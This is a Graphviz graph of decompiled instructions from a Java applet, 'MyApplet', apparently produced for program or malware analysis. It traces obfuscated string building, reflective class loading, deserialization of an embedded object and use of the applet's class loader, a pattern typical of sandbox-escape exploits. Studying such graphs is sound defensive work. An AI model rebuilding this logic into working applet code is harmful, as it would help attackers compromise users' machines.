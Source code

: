 digraph "" {
    "r0 := @this: MyApplet"
    "staticinvoke <Boeiur8knBoei: java.lang.String joeirnbTeonxso()>"
    "r0 := @this: MyApplet"->"staticinvoke <Boeiur8knBoei: java.lang.String joeirnbTeonxso()>";
    "store.r $r120"
    "staticinvoke <Boeiur8knBoei: java.lang.String joeirnbTeonxso()>"->"store.r $r120";
    "push \"%*\""
    "store.r $r120"->"push \"%*\"";
    "push \";\""
    "push \"%*\""->"push \";\"";
    "push \";&\""
    "push \";\""->"push \";&\"";
    "push \"h\""
    "push \";&\""->"push \"h\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"h\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r20"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r20";
    "push \"k(\""
    "store.r r20"->"push \"k(\"";
    "push \"k(\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"j\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"j\"";
    "push \"*\""
    "push \"j\""->"push \"*\"";
    "push \"Q\""
    "push \"*\""->"push \"Q\"";
    "push \"Q\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"*\"";
    "push \"*\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"@~\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"@~\"";
    "push \"p\""
    "push \"@~\""->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r46"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r46";
    "store.r r46"->"push \"p\"";
    "push \"52\""
    "push \"p\""->"push \"52\"";
    "push \"52\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r52"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r52";
    "push \"p;\""
    "store.r r52"->"push \"p;\"";
    "push \"7\""
    "push \"p;\""->"push \"7\"";
    "push \"7\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r58"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r58";
    "store.r r58"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r59"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r59";
    "push \"%\""
    "store.r r59"->"push \"%\"";
    "push \"b;\""
    "push \"%\""->"push \"b;\"";
    "push \"b;\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"w\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"w\"";
    "push \"w\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"!\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"!\"";
    "push \"!\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r60"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r60";
    "store.r r60"->"push \"%\"";
    "push \"@k\""
    "push \"%\""->"push \"@k\"";
    "push \"@k\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"Y@\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"Y@\"";
    "push \"Y@\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"b\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"b\"";
    "push \"b\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r61"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r61";
    "push \"2\""
    "store.r r61"->"push \"2\"";
    "push \"2\""->"push \"2\"";
    "push \"2\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"Y;\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"Y;\"";
    "push \"Y;\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r62"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r62";
    "store.r r62"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"w\"";
    "push \"w\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r63"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r63";
    "push \"@%\""
    "store.r r63"->"push \"@%\"";
    "push \"5\""
    "push \"@%\""->"push \"5\"";
    "push \"5\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \";k\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \";k\"";
    "push \";k\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r64"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r64";
    "push \"(w\""
    "store.r r64"->"push \"(w\"";
    "load.r r46"
    "push \"(w\""->"load.r r46";
    "load.r r46"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r46";
    "push \"X\""
    "store.r r46"->"push \"X\"";
    "push \"X\""->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"2\"";
    "push \"2\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"pY\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"pY\"";
    "push \"pY\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r66"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r66";
    "push \"@\""
    "store.r r66"->"push \"@\"";
    "load.r r52"
    "push \"@\""->"load.r r52";
    "load.r r52"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r52";
    "store.r r52"->"push \"2\"";
    "push \"2\""->"push \"*\"";
    "push \"*\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"O\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"O\"";
    "push \"O\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r68"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r68";
    "push \"W\""
    "store.r r68"->"push \"W\"";
    "push \"l\""
    "push \"W\""->"push \"l\"";
    "push \"l\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"`W\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"`W\"";
    "push \"`W\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r69"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r69";
    "store.r r69"->"push \"h\"";
    "push \"7l\""
    "push \"h\""->"push \"7l\"";
    "push \"7l\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"H\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"H\"";
    "push \"H\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r70"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r70";
    "load.r r20"
    "store.r r70"->"load.r r20";
    "push \"v\""
    "load.r r20"->"push \"v\"";
    "push \"v\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r20";
    "push \"9\""
    "store.r r20"->"push \"9\"";
    "load.r r58"
    "push \"9\""->"load.r r58";
    "load.r r58"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r58";
    "push \"k]\""
    "store.r r58"->"push \"k]\"";
    "push \"p{\""
    "push \"k]\""->"push \"p{\"";
    "push \"p{\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r74"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r74";
    "push \"j*Q*\""
    "store.r r74"->"push \"j*Q*\"";
    "store.r r76"
    "push \"j*Q*\""->"store.r r76";
    "goto goto goto goto push \"Z\""
    "store.r r76"->"goto goto goto goto push \"Z\"";
    "goto goto goto push \"Z\""
    "goto goto goto goto push \"Z\""->"goto goto goto push \"Z\"";
    "goto goto push \"Z\""
    "goto goto goto push \"Z\""->"goto goto push \"Z\"";
    "goto push \"Z\""
    "goto goto push \"Z\""->"goto push \"Z\"";
    "push \"Z\""
    "goto push \"Z\""->"push \"Z\"";
    "load.r r76"
    "push \"Z\""->"load.r r76";
    "push \"%*::!p\""
    "load.r r76"->"push \"%*::!p\"";
    "push \"%*::!p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \";%5:\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \";%5:\"";
    "push \";%5:\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \":!p;\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \":!p;\"";
    "push \":!p;\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"load.r r58";
    "load.r r74"
    "load.r r58"->"load.r r74";
    "load.r r74"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"*Zp\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"*Zp\"";
    "push \"*Zp\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "push 0"
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"push 0";
    "newarray"
    "push 0"->"newarray";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"
    "newarray"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "load.r r0"
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"newarray";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"
    "newarray"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "virtualinvoke <java.lang.Object: java.lang.String toString()>"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"virtualinvoke <java.lang.Object: java.lang.String toString()>";
    "virtualinvoke <java.lang.Object: java.lang.String toString()>"->"store.r r58";
    "new java.io.ObjectInputStream"
    "store.r r58"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "load.r $r120"
    "dup1.r"->"load.r $r120";
    "staticinvoke <EtoPukIliMagicLu1Raz: byte[] boqeisnqiw(java.lang.String)>"
    "load.r $r120"->"staticinvoke <EtoPukIliMagicLu1Raz: byte[] boqeisnqiw(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <EtoPukIliMagicLu1Raz: byte[] boqeisnqiw(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"dup1.r";
    "push 5"
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r120";
    "store.r $r120"->"load.r $r120";
    "load.r $r120"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "arraywrite.r"
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r120";
    "push 1"
    "load.r $r120"->"push 1";
    "load.r r69"
    "push 1"->"load.r r69";
    "load.r r70"
    "load.r r69"->"load.r r70";
    "load.r r70"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r20";
    "load.r r20"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"v\"";
    "push \"v\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r120";
    "push 2"
    "load.r $r120"->"push 2";
    "push 2"->"push 0";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 0"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "arrayread.r"
    "push 1"->"arrayread.r";
    "store.r r0"
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r120";
    "push 3"
    "load.r $r120"->"push 3";
    "push 3"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r120";
    "push 4"
    "load.r $r120"->"push 4";
    "push 4"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "load.r r59"
    "arraywrite.r"->"load.r r59";
    "load.r r60"
    "load.r r59"->"load.r r60";
    "load.r r60"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r61"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r61";
    "load.r r61"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r62"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r62";
    "load.r r62"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r63"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r63";
    "load.r r63"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r64"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r64";
    "load.r r64"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r46";
    "load.r r46"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r66"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r66";
    "load.r r66"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r52";
    "load.r r52"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r68"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r68";
    "load.r r68"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"store.r r0";
    "store.r r0"->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \";\"";
    "push \";\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"store.r r59";
    "store.r r59"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r60";
    "store.r r60"->"load.r r60";
    "load.r r60"->"push 0";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"
    "push 0"->"staticget <java.lang.Integer: java.lang.Class TYPE>";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"->"arraywrite.r";
    "arraywrite.r"->"load.r r60";
    "load.r r60"->"push 1";
    "push class \"Ljava/lang/Object;\""
    "push 1"->"push class \"Ljava/lang/Object;\"";
    "push class \"Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"load.r r59";
    "load.r r59"->"load.r r60";
    "load.r r60"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"load.r $r120";
    "load.r $r120"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"load.r $r120";
    "load.r $r120"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"load.r $r120";
    "load.r $r120"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "pop"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"pop";
    "pop"->"load.r $r120";
    "load.r $r120"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"load.r r58";
    "staticinvoke <apl: void classfile(apl,java.lang.String)>"
    "load.r r58"->"staticinvoke <apl: void classfile(apl,java.lang.String)>";
    "goto return"
    "staticinvoke <apl: void classfile(apl,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <apl: void classfile(apl,java.lang.String)>"->"store.r r0";
    "store.r r0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
}
